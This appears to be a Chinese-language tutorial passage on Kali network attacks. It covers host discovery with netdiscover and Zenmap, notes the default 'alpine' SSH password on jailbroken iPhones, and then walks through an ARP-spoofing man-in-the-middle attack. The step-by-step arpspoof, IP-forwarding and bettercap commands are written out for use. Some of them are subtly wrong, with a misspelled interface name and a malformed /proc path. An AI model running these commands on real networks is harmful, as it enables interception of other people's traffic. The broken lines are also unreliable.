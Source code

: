 執行後可以看到inet，是ip位址，得到ip位址後執行以下
```
$ netdiscover -r (router ip 位址)/24 
```
執行後可以看到ip位址連接到的網路的同個裝置，結尾要加上/24，原因是因為子網路遮罩為255.255.255.0，路由器分配的只有最後一個ip數有變動，範圍都是1~255
```
$ zenmap
```
>在target可以搜尋目標網路的資訊(可以連接上的)，就等於是有GUI的namp，各個功能可以實際去嘗試加上體驗，這邊介紹一些普通的。
>ping scan : 可以ping各個連接到同個網路的裝置資訊，這邊要注意，不是所有裝置都會回應ping
>Quick scan : 跟上面的方式很像，這次會顯示更多資訊，而且它會顯示裝置開放的端口，執行也比較慢
>Quick scan plus : quick scan的進階，顯示更多資訊，可以看到裝置的type, os, 以及在端口運行的程式版本，如果有一部ios手機越獄，他會自動安裝ssh服務，並且他的密碼會是alpine
### 13.連接後攻擊-MITM攻擊
![](https://i.imgur.com/pJXDIT8.jpg)
>ARP中毒，駭客可以當中間人，監聽裝置給router的訊息，這邊還有注意事項，同個網路下溝通是透過mac address而不是ip
>
ARP溝通
>某個裝置像其他所有裝置詢問ip，正確的裝置會回傳ip與mac address，整體運作圖如下
![](https://i.imgur.com/fhwuAtj.jpg)
![](https://i.imgur.com/DMVUute.jpg)

ARP欺騙
![](https://i.imgur.com/jJEXHch.jpg)

ARP欺騙指令(此噌可以在mac or windows執行)
```
arp -a
```
>可以查看router ip
實作指令欺騙裝置讓他以為我是router

實作指令欺騙裝置
```
$ arpspoof -i eht0 -t (spoofing device ip) (router ip)
```
實作指令欺騙路由器
```
$ arpspoof -i eth0 -t (router ip) (spoofing device ip)
```
>注意以上指令需要同時執行

指令讓被欺騙的裝置可以透過我的kali將被spoofing device的data傳到router，預設會擋下
```
$ echo 1 >proc/sys/net/ipv4/ip_forward
```
ARP欺騙吧第二種指令
```
$ bettercap -iface eth0 
```
>開啟該工具
```
$ net.probe on
```
>會搜索同個網路下的客戶端
```
$ net.show
```
>觀看上面指令執行後找到的客戶端
